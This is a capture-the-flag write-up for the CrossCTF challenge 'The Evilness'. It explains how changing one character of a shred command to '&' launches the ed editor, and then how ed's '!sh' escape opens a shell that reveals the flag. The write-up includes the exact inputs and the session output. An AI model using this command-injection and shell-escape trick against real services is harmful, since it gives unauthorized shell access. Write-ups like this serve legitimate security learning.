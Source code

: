 # The Evilness

## Challenge

> Ready for something ridiculously difficult?
> 
> nc ctf.pwn.sg 4020

## Solution

*We didn't solve this challenge and this writeup is inspired by the writeups at the end of this document.*

If we nc to `ctf.pwn.sg 4020`, we are shown the Python script [theevilness.py](theevilness.py) and prompted with:

```
Here comes the shredder! (/usr/bin/shred /tmp/cartoon-qOa6us.dat)
```

From the provided Python script [theevilness.py](theevilness.py), we can observe that it:
* Creates a new temporary file
* Writes the flag to this temporary file
* Prepares a command that deletes/shreds this temporary file:
    ```
    /usr/bin/shred /tmp/cartoon-N4KVtr.dat
    ```
* Allows the user to modify one character of this command

We can replace the 12-th character of this command (`r`) with the character `&` so as to modify the command to be:

```
/usr/bin/sh&ed /tmp/cartoon-N4KVtr.dat
```

The [single `&` character](http://bashitout.com/2013/05/18/Ampersands-on-the-command-line.html) delimits the following commands that are run asynchronously:

```
/usr/bin/sh
```

```
ed /tmp/cartoon-N4KVtr.dat
```

where `ed` is the command for [Ed](http://www.gnu.org/software/ed/manual/ed_manual.html), a GNU line-oriented text editor.

Interacting with `ctf.pwn.sg` on port 4020, we supply the inputs `11` (corresponds to 12th character) and `26` (hex representation of `&`):

```
Here comes the shredder! (/usr/bin/shred /tmp/cartoon-Qh40QX.dat)
11
26
sh: 1: /usr/bin/sh: not found
Newline appended
62
```

We are presented with the command prompt of Ed. Using `.` to print out the contents of the temporary file,

```
.
LOL YOU THOUGHT THIS WOULD BE SO EASY? GET A SHELL YOU DWEEB.
```

We are given another hint that instructs us to get a shell. Using `!` run commands on the shell (to open another shell), we find the flag present in the working directory and print out its contents:

```
!sh
ls
flag
flag.py
requirements.txt
theevilness.py
cat flag
CrossCTF{it5_th3_r34ln3ss_th3_r3alness}
```

## Other writeups

* [NUS OSI Layer 8 writeup](https://osilayer8.cf/crossctf-finals2018/misc/evil/README/)
